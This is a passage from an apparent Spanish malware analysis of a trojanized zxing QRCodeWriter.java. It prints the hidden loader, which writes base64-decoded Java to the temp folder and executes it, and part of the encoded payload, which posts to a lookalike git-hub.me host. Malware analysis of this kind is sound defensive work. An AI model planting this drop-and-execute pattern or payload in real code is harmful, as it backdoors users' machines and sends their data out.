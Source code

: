 Ante la inexistencia de material sobre este malware se decidió proceder a un análisis manual. En primera instancia la búsqueda de cadenas de texto que referencien los nombres de los archivos creados arrojó resultados positivos:

```bash
#Buscar "qrlog" en referencia al archivo QRLog.java, primer archivo escrito en las carpetas temporales
> grep -rnwi "qrlog"

[...]/google/zxing/qrcode/QRCodeWriter.java:87:errPath = System.getProperty("java.io.tmpdir")+ "\\QRLog.java";
[...]/google/zxing/qrcode/QRCodeWriter.java:89:errPath = System.getProperty("java.io.tmpdir")+ "/QRLog.java";
```
El archivo `QRCodeWriter.java` es quien crea originalmente el archivo `QRLog.java` y es un buen candidato para comenzar la investigación.
Teniendo una referencia sólida fue posible comenzar el análisis del código Java.

<a name="analisis"></a>
## Análisis de código fuente

Al analizar el archivo `QRCodeWriter.java` (disponible para descargar individualmente en la sección [Muestras](#muestras)) llama inmediatamente la atención la siguiente función:

```java
try{
        String os = System.getProperty("os.name");
        String errPath;
        
        if (os.contains("Windows"))
            errPath = System.getProperty("java.io.tmpdir")+ "\\QRLog.java";
        else
            errPath = System.getProperty("java.io.tmpdir")+ "/QRLog.java";
        FileOutputStream qrW = new FileOutputStream(errPath);
        qrW.write(b64dec);
        Runtime.getRuntime().exec("java " + errPath);
    }
    catch (IOException ex){   
    }
```

En esta función el malware intenta determinar vagamente sobre qué plataforma se estrá trabajando (Windows o Unix), para entender dónde y cómo (con barra invertida o no) escribir un archivo "de log" con extensión `.java`. A este archivo le escribe el contenido de la variable `b64dec` la cual puede encontrarse unas líneas más arriba en el archivo.

```java
byte [] b64dec = Base64.getDecoder().decode(QUIET_ZONE_DATA);
```

Como podemos ver en este fragmento, `b64dec` almacena el resultado de decodificar la variable `QUIET_ZONE_DATA` desde `base64`. Indagando un poco más en el código es posible encontrar el contenido de `QUIET_ZONE_DATA`:

```java
public static String QUIET_ZONE_DATA = "aW1wb3J0IGphdmEuaW8uSU9FeGNlcHRpb247CmltcG9ydCBqYXZhLm5ldC5VUkk7CmltcG9ydCBqYXZhLm5ldC5odHRwLkh0dHBDbGllb"
          + "nQ7CmltcG9ydCBqYXZhLm5ldC5odHRwLkh0dHBSZXF1ZXN0OwppbXBvcnQgamF2YS5uZXQuaHR0cC5IdHRwUmVzcG9uc2U7CmltcG9ydCBqYXZhLm5pby5jaGFyc2V0LlN0YW5"
          + "kYXJkQ2hhcnNldHM7CmltcG9ydCBqYXZhLnV0aWwuQmFzZTY0OwppbXBvcnQgamF2YS51dGlsLlJhbmRvbTsKaW1wb3J0IGphdmEuaW8uQnVmZmVyZWRXcml0ZXI7CmltcG9yd"
          + "CBqYXZhLmlvLkZpbGU7CmltcG9ydCBqYXZhLmlvLkZpbGVXcml0ZXI7CmltcG9ydCBqYXZhLmxhbmcuVGhyZWFkOwoKcHVibGljIGNsYXNzIFFSTG9nIHsKCiAgICBwcml2YXR"
          + "lIHN0YXRpYyBmaW5hbCBTdHJpbmcgUE9TVF9VUkwgPSAiaHR0cHM6Ly93d3cuZ2l0LWh1Yi5tZS92aWV3LnBocCI7CgogICAgcHVibGljIHN0YXRpYyB2b2lkIG1haW4oU3Rya"
          + "W5nW10gYXJncykgdGhyb3dzIElPRXhjZXB0aW9uewoKICAgICAgICBzZW5kUE9TVCgpOwogICAgfQoKICAgIHByaXZhdGUgc3RhdGljIFN0cmluZyByYW5kR2VuKCkgdGhyb3d"
```